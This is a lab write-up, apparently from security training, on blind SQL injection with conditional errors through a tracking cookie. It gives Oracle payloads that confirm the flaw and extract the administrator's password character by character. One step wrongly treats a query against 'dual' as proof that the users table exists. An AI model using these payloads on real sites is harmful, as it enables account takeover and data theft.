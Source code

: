 ## Lab analysis 
- result of sql query is not returned
- application doesnot respond any differently based on whether the query return any rows
- if the sql query causes an error, then the application returns a custom error message

there is table `users` with columns named `username` and `password`

## Aim Exploit the blind sql and find the password of the administrator


## burp
Cookie: TrackingId=9Bq0SZ0PA8uupFFy; 

## Confirming the vulnerability

' || (select '' from dual) || '  -> gives 200 response
' || (select '' from randomtable) || ' -> gives 500 response

hence it is vulnerable

## Checking if users table exist or not

' || (select '' from users) || ' 
this is also a valid payload but in this case ,it breaks the system since it returns '' for every row present in users table

so we will modify little bit

' || (select '' from dual where rownum = 1) || '  -> gives 200 response which indicates users table exist


## checking if administrator user exist or  not in users table
 
' || (select '' from users where username = 'administrator')|| ' 
this payload return true regardless the administrator exist or not.
i.e if administrator user exist it will return '' 
	if doesnot exist it will return nothing
thus this payload is not much of use.

`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' `
here from ..... will run first if administrator username exist then the select case query runs giving us error if administrator username doesnot exist then the select case query doesnot runs thus no error








## checking the length of password

`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator'and length(password)>0)||' `
here from users where ..... will run first if use username administrator exist(which do exist, proved in previous step) and lenght of password field >1 then gives error if no doesnot give error


--> status 200 at >20 --> so lenght of password in 20



## Bruiteforcing the password

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' and substr(password,1,1) ='a') ||'

8b5j5yhyqq6ikzl0i7sl



















